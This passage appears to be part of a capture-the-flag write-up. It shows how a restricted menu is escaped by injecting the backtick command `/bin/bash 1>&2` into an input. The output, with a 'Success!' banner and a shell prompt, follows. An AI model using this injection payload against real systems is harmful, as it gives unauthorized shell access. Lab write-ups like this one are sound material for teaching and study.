 # Escape to shell
Option 4 gives a  hint that special characters may cause errors, after trying to execute `/bin/bash` in between back ticks "`" it seems it works but we receive no output to the console so we try again to redirect the stdout to stderror

```
`/bin/bash 1>&2`
```
And we escape to the shell.

```
   ___                                                      _    
  / __|   _  _     __      __      ___     ___     ___     | |   
  \__ \  | +| |   / _|    / _|    / -_)   (_-<    (_-<     |_|   
  |___/   \_,_|   \__|_   \__|_   \___|   /__/_   /__/_   _(_)_  
_|"""""|_|"""""|_|"""""|_|"""""|_|"""""|_|"""""|_|"""""|_| """ | 
"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-' 

Type 'exit' to return to the menu.

shinny@9bf4b0fee057:~$
```